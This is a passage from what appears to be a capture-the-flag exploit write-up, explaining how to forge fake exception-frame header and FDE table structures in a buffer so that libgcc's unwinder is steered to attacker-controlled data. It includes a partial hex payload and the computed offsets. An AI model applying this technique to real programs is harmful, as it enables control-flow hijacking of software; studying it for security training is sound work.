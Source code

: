So, this payload basically lets us to execute <span class="lang:default decode:true  crayon-inline ">goto found;</span>  code (*unwind-dw2-fde-dip.c:225*) since the <span class="lang:default decode:true  crayon-inline ">data->pc</span>  will be in between **pc_low** and **pc_high**.

Then, on line 315, **hdr** is calculated by adding **p\_eh\_frame\_hdr->p\_vaddr** and **load_base**, thus pointing **0x40025054**.  
Time to build a fake **hdr** struct!

## 4-3. hdr & table construction

Starting at +0x54 from our buffer comes the **hdr** struct.  
It&#8217;s a 4 byte struct and we fill in reasonable values here, according to the encoding scheme mentioned above.

<pre class="toolbar:2 nums:false lang:default decode:true">*hdr:
 | version = 0x01
 | eh_frame_ptr_enc = 0x1b (DW_EH_PE_pcrel | DW_EH_PE_sdata4)
 | fde_count_enc = 0x03 (DW_EH_PE_absptr | DW_EH_PE_udata4)
 | table_enc = 0x3b (DW_EH_PE_datarel | DW_EH_PE_sdata4)</pre>

Then, as we saw earlier, **eh_frame** is read. Since the value is supposedly encoded with <span class="lang:default decode:true  crayon-inline ">(DW_EH_PE_pcrel | DW_EH_PE_sdata4)</span> , this value in our data should be an offset from where the **hdr** is. However, the value of **eh_frame** isn&#8217;t really related to what we do, so we can put any value (**read\_encoded\_value\_with\_base** actually does the calculation given the base to correctly compute eh_frame&#8217;s value).

<span style="line-height: 1.5em;">Ok, next check is the following:</span>

<pre class="toolbar:2 nums:false lang:c decode:true">if (hdr-&gt;fde_count_enc != DW_EH_PE_omit
    && hdr-&gt;table_enc == (DW_EH_PE_datarel | DW_EH_PE_sdata4))</pre>

We have picked the values for encoding schems such that we satisfy both conditions.  
Then, **fde_count** is read.  
Since we do not want to create more than one set of fake structs (to be searched with binary search later), we will force this to be 1.

So with this data appended, we so far have this as our payload:

<pre class="nums:false lang:default highlight:0 decode:true" title="payload">00000000  73 74 64 63 68 70 69 65  0a 41 18 b1 2e 40 1c 50  |stdchpie.A...@.P|
00000010  02 40 41 41 41 41 41 42  41 42 42 42 00 00 00 00  |.@AAAAABABBB....|
00000020  ff ff ff ff 00 00 00 00  34 50 02 40 43 43 43 43  |........4P.@CCCC|
00000030  00 00 00 00 50 e5 74 64  44 44 44 44 54 50 02 40  |....P.tdDDDDTP.@|
00000040  45 45 45 45 46 46 46 46  47 47 47 47 48 48 48 48  |EEEEFFFFGGGGHHHH|
00000050  49 49 49 49 01 1b 03 3b  4a 4a 4a 4a 01 00 00 00  |IIII...;JJJJ....|</pre>

Then, the **table** comes next. *fde_table* struct has two fields: **initial_loc** and **fde**.

As mentioned earlier, in order for the search to succeed, we need to satisfy <span class="lang:default decode:true  crayon-inline ">table[mid].initial_loc + data_base <= data->pc < table[mid].initial_loc + data_base + range</span> .

Note that data_base is pointing at **hdr** (**0x40025054**). So we can set **initial_loc** to **0xBFFDAFAC** such that <span class="lang:default decode:true  crayon-inline ">initial_loc + data_base == 0x40025054 + 0xBFFDAFAC  == 0x0</span> .
